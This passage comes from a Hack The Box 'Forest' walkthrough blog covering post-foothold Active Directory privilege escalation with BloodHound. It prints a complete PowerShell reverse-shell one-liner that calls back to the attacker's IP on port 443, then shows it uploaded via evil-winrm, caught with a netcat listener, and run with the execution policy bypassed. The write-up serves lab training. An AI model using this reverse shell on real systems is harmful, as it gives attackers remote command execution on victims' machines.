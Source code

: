 {% endhighlight %}

The user proof starts with 'e5' 😉

## BloodHound to the Rescue

As I said at the beginning of this article, I had zero experience in pwning Windows AD boxes. Luckily for me, someone recommended using [BloodHound](https://github.com/BloodHoundAD/BloodHound). BloodHound is now one of my go-to tools for privesc, so I really recommend you take the time to install it. While we are at it, if you run into issues with neo4j when installing it, use the following command to fetch and run a pre-made docker container:

{% highlight bash %}

docker run -p 7474:7474 -p 7687:7687 specterops/bloodhound-neo4j

{% endhighlight %}

Before using BloodHound, I upgraded my shell to a PowerShell one. There are many advantages in using PowerShell, and I can't imagine doing privesc without it. The following script spawns a reverse shell when it is run:

{% highlight powershell %}
# Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

$client = New-Object System.Net.Sockets.TCPClient("10.10.15.9", 443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
{% endhighlight %}

I used evil-winrm's upload function to transfer the shell.ps1 script and then ran it:

{% highlight bash %}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./shell.ps1
Info: Uploading ./shell.ps1 to C:\Users\svc-alfresco\Documents\shell.ps1

                                                             
Data: 816 bytes of 816 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ./shell.ps1
{% endhighlight %}

Once the reverse shell connected, I made sure the execution policy is set to bypass:

{% highlight powershell %}

root@fury-battlestation:~/htb/blog/forest# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.9] from (UNKNOWN) [10.10.10.161] 57521
powershell.exe -nop -exec bypass
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\svc-alfresco\Documents> 
PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
PS C:\Users\svc-alfresco\Documents>

{% endhighlight %}
